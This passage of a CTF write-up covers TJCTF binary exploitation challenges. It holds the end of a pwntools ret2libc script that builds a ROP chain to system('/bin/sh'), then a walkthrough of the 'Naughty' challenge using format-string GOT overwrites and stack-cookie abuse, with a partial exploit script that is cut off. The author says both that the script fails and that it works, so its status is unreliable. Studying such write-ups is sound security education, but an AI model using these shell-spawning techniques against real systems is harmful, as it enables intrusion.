 ```python
system = libc.sym["system"]
binsh = next(libc.search("/bin/sh"))

payload = "A" * 88
payload += p64(ret) + p64(prdi) + p64(binsh) + p64(system)

r.recv()
r.sendline(payload)

r.interactive()
```

#### Naughty
```
Written by KyleForkBomb

Santa is getting old and can't tell everyone which list they are on anymore. Fortunately, one of his elves wrote a service to do it for him!

nc p1.tjctf.org 8004
```

Ian (imyxh) who I played this ctf with in ihscy mainly solved this challenge and it was an interesting combination of format strings, stack cookie, and __libc_csu_fini. I will explain the overall idea but I did not manage to get my final exploit working. 

The first step is to use format string to overwrite the __libc_csu_fini destructor to main while leaking both a stack address and a libc address. It would look something like this `payload = fmtstr_payload(7, {_libc_csu_fini: main}) + 'mark1 %7$x' + 'mark2 %72$x'`. Then we can `r.recvuntil('mark1 ')` and `r.recvuntil('mmark2 ')` to easily access the data leaked by the format string vulnerability. This was a trick I learned after the ctf but could come in very handy in the future. Now unfortunately, destructors only run once which means we do not loop to main infinitely, only once. However, we the information we have leaked, we can abuse the fact that there is a stack cookie. When the stack cookie is overwritten, the stack_chk_fail@GOT function is called. How we can attack this is to first overwrite stack_chk_fail to main then purposefully corrupt the stack cookie so we can loop back around the main. We know our position in the stack so overwriting the stack cookie should be easy after some analysis of the stack. In this same format string, we can overwrite printf to the address of system in libc using the libc leak we obtained earlier. This is the standard technique to get a shell we will pass in `/bin/sh` into the buffer and then when it calls `printf(buff)` it will really be `system(buff)` which will grant us a shell. The following is my exploit which does not work but provides some insight on how to use fmtstr_payload and read the leaks. Note: THIS DOES WORK.
```python
from pwn import *

context.log_level = "debug"
context.terminal = ["tmux", "split", "-h"]

gdbscript="""
b *gets
"""

e = ELF("naughty")
libc = ELF("libc6-i386_2.27-3ubuntu1_amd64.so")

puts_got = e.got["puts"]
stack_chk_fail_got = e.got["__stack_chk_fail"]
printf_got = e.got["printf"]

r = remote("p1.tjctf.org", 8004)
#r = process("./naughty")
#gdb.attach(r, gdbscript = gdbscript)

r.recv()

```